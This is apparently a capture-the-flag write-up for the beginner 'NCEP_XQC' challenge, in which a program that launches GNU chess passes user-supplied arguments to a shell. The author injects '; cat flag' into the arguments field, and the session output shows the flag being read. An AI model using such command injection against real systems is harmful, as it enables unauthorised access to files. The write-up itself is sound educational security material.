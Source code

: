```yaml
---
title: "OSU League 2020/2021 - NCEP_XQC Writeup"
date: 2021-04-10
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
For this challenge, we are given a simple program that just runs GNU chess.
Right away we can see that it lets us input command line arguments! Maybe we can just do a simple commandline injection to cat the flag:

```
$ nc ctf.ropcity.com 31314
WELCOME TO THE NORWEGIAN COLLEGE OF ELITE PWN
Please enter your custom command line arguments, or just hit enter to begin your training: ; cat flag
executing command: /usr/games/gnuchess -g -m ; cat flag

GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : quit
osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}

finished executing command /usr/games/gnuchess -g -m ; cat flag
```

And we get the flag!  
`osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}`

Welp... Looks like that was it. A good beginner challenge for this series!